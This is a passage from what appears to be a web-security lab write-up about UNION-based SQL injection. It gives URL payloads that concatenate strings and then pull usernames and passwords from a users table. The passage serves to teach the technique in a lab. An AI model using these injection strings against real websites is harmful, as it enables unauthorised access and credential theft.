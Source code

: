 ![img](media/93fdd0417de32a2ebdd44e4f24ccce23.png)

We can print strings using the second column in the attack and concatenate
strings using CONCAT:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+NULL,CONCAT('foo','bar')--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/a0039f52e78bdca08da796368a36ab0a.png)

We can get content from both columns using SELECT CONCAT(username,':',password)
from users:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+NULL,CONCAT(username,':',password)+from+users--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
